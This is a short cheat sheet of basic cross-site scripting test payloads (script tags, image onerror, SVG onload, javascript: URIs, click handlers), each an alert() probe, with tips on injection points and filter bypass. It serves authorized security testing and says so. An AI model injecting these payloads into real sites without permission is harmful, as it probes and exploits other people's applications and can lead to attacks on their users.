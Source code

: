 # Basic XSS Payloads Cheat Sheet

A list of simple XSS payloads to test for Cross-Site Scripting vulnerabilities.  
**Use responsibly and only on systems you have permission to test.**

---

## 1. Basic Script Injection

```html
<script>alert(1)</script>
```

---

## 2. HTML Injection

```html
<img src=x onerror=alert(1)>
```

---

## 3. Attribute Injection

```html
"><svg/onload=alert(1)>
```

---

## 4. Input Field/Parameter

```html
"><script>alert(document.domain)</script>
```

---

## 5. Event Handler Injection

```html
<a href="#" onclick="alert('XSS')">Click me</a>
```

---

## 6. JavaScript URI

```html
javascript:alert(1)
```
*(Try in input fields that reflect links or URLs)*

---

## 7. Minimal Payloads

```html
"><img src=x onerror=alert(1)>
```

---

## Tips

- Try payloads in different contexts (URL, form fields, cookies, headers).
- Use developer tools to inspect reflected input and script execution.
- Bypass filters by encoding or using alternative event handlers (e.g., `onmouseover`, `onfocus`).

---

-